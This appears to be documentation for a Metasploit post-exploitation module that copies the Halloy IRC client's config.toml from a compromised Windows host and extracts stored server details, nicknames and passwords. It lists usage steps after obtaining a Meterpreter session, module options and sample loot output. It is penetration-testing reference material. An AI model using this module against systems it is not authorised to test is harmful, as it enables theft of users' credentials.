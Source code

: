 ## Vulnerable Application

  This post-exploitation module extracts clear text credentials from the Halloy IRC Client.

  The Halloy IRC Client is avaialble from (https://github.com/squidowl/halloy).

  This module extracts information from the config.toml file in the "AppData\Roaming\Halloy" directory.

  This module extracts server information such as server, port, nickname, password and proxy password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/halloy_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/halloy_irc_v2) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Halloy irc's Config.toml file found
[*] Downloading C:\Users\test\AppData\Roaming\halloy\config.toml
[*] Halloy irc Config.toml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507133313_default_10.0.0.2_HalloyIRCconfig_968975.toml

[+] server="irc.libera.chat"
[+] port=6697
[+] nickname="halloy4169"
[+] File with data saved:  /home/kali/.msf4/loot/20240507133313_default_10.0.0.2_EXTRACTIONconfig_815098.toml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```

### Verbose Output
```

msf6 post(windows/gather/credentials/halloy_irc_v2) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Halloy irc's base folder not found in users's user directory

[*] Starting Packrat...
[*] Halloy irc's base folder found
[*] Found the folder containing specified artifact for config.toml.
[*] Halloy irc's Config.toml file found
[*] Processing C:\Users\test\AppData\Roaming\halloy
[*] Downloading C:\Users\test\AppData\Roaming\halloy\config.toml
[*] Halloy irc Config.toml downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240507145656_default_10.0.0.2_HalloyIRCconfig_292638.toml

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] server="irc.libera.chat"
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] port=6697
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] nickname="halloy4169"
[+] File with data saved:  /home/kali/.msf4/loot/20240507145656_default_10.0.0.2_EXTRACTIONconfig_238220.toml
[*] PackRat credential sweep Completed
[*] Post module execution completed

```
